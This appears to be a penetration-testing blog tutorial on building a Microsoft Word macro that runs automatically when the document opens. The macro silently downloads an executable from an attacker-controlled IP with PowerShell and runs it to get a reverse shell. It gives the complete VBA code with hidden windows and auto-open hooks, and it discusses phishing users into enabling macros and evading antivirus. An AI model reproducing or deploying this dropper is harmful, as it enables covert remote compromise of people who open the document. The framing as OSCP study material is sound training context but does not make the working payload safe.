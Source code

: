 ```yaml
---
title: "How To Make A Reverse Shell With Microsoft Word Macros"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

---
title: "How To Make A Reverse Shell With Microsoft Word Macros"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---

## High Level

By leveraging VBA code in a macro inside of a Microsoft Word document we can leverage Windows APIs to do a lot of functionality like open and run commands in command prompt. The user must enable both editing mode and macros or else Microsoft Word will not let command prompt run our reverse shell. We will use some tips and tricks like making sure command prompt does not open visually, making the macro actually run without the user having to do anything but enable it, and it a future post running our payload in memory to leave no trace.

## Microsoft Word Setup

You will obviously need to have Word already installed and able to be ran. While this post will not go into the phishing tactics that also must be involved for a succesful user to allow our document access a future post most absolutely will. Once inside our word document we need to navigate to the Macros section by going to View --> Macros. Once the Macros window pops up we must choose what document to apply this to. You can either select the name of your document or, for a currently unnamed docuement, select "Document1 (document)". If we do not select the current docuement it will default to adding this to our global template. After selecting our current document we must name the macro. Most online tutorials call their macro "MyMacro" but any naming convention here will work. This is also another moment to employ phishing tactics as a more educated user might want to inspect what macros are being ran. Once the macro is named the VBA editor will launch.

Here is the complete macro below. We will work through the macro top to bottom to make sure we understand what is happening.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```


## Macro Explained

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Are redundant options make making the user run our macro since they might not do this willingly or become highly confused with written instruction. They are both there for scenarios where one might not trigger but they both accomplish the same goal.


```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide
```


This is the heart of the exploit and also where you should adjust your ip address and file name accordingly. To launch the Shell function we need both the exePath and str variables defined; which you can see them as so above. ActiveDocument.Path is used since the powershell download will not go to the normal downloads folder but inside of Word. After each of these shell commands you may notice the vbHide attribute. As one might guess, this hides the command prompts being run from showing allowing the illusion to the user that nothing malicious is happening in the background.


```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
```


We skipped over the Wait (2) command in the paragraph above as it is not as simple as it looks. VBA does not have a built in wait function so instead we have create our own function that does just that. In the end, whatever number you put in Wait (#) will make the program stall for that many seconds. Remember what is happening: we are reaching out to our own server to download the reverse shell. Due to poor internet connection it is possible that the payload is not fully downloaded by the time the macro reaches the execution part and could end up causing a false negative. By including this wait function we give the program ample time to download our payload for execution.

## Saving The File

While you might be tempted to save this as the modern .docx format this will actually stop this from working. Instead, we need to use the much older but still in use .doc Word file extension to make sure our macros are kept with the file.

## Wrap up

In the blog we did not go over how to craft a msfvenom reverse shell. However, I will have blog post coming out soon and will link it here. Additionally, this technique does not practice the best techniques by downling the reverse shell instead of loading and running it in memory. There will also be a blog post comming on this soon and I will link it here. This next step of loading the payload in memory is highly encouraged as many anti virus programs will easily catch or reverse shell or throw up other errors when trying to execute it.
